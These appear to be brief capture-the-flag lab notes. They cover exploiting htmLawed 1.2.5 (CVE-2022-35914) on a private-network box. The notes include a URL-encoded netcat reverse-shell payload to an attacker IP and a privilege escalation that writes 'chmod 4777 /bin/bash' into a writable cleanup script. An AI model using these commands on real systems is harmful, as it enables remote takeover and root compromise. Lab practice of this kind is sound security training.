





____

> [!info]
> IP=192.168.179.190


# Nmap

|PORT|STATE|SERVICE|
|---|---|---|
|22/tcp|open|ssh|
|80/tcp|open|http|

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: htmLawed (1.2.5) test
|_http-server-header: Apache/2.4.56 (Debian)
```


## 80 - http

- htmLawed (1.2.5) test

https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/



Change Post endpoint to /index.php






```bash
nc%20192.168.45.234%2080%20-e%20%2Fbin%2Fbash
```



# PrivEsc




```bash
-rwxr-xr-x 1 www-data www-data /var/www/cleanup.sh
```

```bash
#!/bin/bash

chmod 4777 /bin/bash
```
